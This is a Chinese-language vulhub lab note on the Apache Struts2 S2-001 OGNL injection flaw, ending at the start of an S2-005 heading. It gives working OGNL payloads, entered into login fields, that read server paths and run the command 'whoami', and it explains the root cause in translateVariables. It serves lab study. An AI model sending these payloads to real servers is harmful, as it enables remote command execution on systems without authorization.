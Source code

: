 



1. 登录失败的时候： **账号和密码会显示在信息框里**

   ![image-20220525151054931](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220525151054931.png)

2. 测试漏洞：当我们在账号框或密码框处输入这样一个字符串时`%{1+1}`（`%`需编码为%25）会被解析成2，说明存在s2-001漏洞

   ![image-20220525151315549](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220525151315549.png)

3. 从而利用这一特性，可以构造一些命令执行语句  

   获取tomcat路径

   ~~~java
   %{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
   ~~~

   ![image-20220525152447499](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220525152447499.png)

   获取 web 路径

   ~~~java
   %{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
   
   ~~~

   ![image-20220525153329334](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220525153329334.png)

   

   命令执行

   ~~~java
   %{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
   
   ~~~

   ![image-20220525153611385](E:\md笔记资料\vulhub靶场漏洞学习笔记.assets\image-20220525153611385.png)

   **漏洞原因：**
   
   > 阅读源码发现，究其原因，在于在`translateVariables`中，递归解析了表达式，在处理完`%{password}`后将`password`的值直接取出并继续在`while`循环中解析，若用户输入的`password`是恶意的`OGNL`表达式，比如`%{1+1}`，则得以解析执行。
   > 

## S2-005 远程代码执行漏洞

影响版本: 2.0.0 - 2.1.8.1 漏洞详情: http://struts.apache.org/docs/s2-005.html

### 原理
